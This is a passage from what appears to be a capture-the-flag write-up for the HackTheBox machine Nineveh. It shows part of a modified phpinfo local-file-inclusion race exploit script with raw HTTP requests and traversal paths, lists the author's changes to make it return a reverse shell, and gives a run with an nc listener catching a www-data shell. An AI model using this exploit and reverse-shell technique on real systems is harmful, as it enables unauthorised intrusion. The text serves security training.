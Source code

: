     HTTP_USER_AGENT: """+padding+"""\r
    HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
    HTTP_PRAGMA: """+padding+"""\r
    Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
    Content-Length: %s\r
    Host: %s\r
    \r
    %s""" %(len(REQ1_DATA),host,REQ1_DATA)
        #modify this to suit the LFI script   
        LFIREQ="""GET /department/manage.php?notes=/ninevehNotes/..%s HTTP/1.1\r
    User-Agent: Mozilla/4.0\r
    Proxy-Connection: Keep-Alive\r
    Cookie: PHPSESSID=""" + phpsessid + """\r
    Host: %s\r
    \r
    \r
    """
        return (REQ1, TAG, LFIREQ)
    

I made the following changes:

  * Changed the payload so that it will return a reverse shell to the ip and port specified above.
  * Changed the POST path in `REQ1` to `/info.php` rather than `/phpinfo.php` to match Nineveh.
  * Changed the POST path in `LFIREQ` to the Nineveh LFI.
  * Added a `PHPSESSID` cookie to the `LFIREQ` so that I could access the LFI.

The other thing I had to change was two places in the code where it looks in a
response for `[tmp_name] =>`. PHP now HTML encodes that to `[tmp_name] =&gt;`,
so I need to fix that. Interestingly enough, in the paper it also has the
encoded version, so it might just be an error in the script.

### Shell

With those changes in place, I can run the script with a `nc` listener
waiting:

    
    
    root@kali# python phpinfolfi.py 10.10.10.43 80 100
    LFI With PHPInfo()
    -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    Getting initial offset... found [tmp_name] at 125163
    Spawning worker pool (100)...
     101 /  1000
    

It froze at that point, with a shell on `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:43916.
    bash: cannot set terminal process group (1387): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@nineveh:/var/www/html/department$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    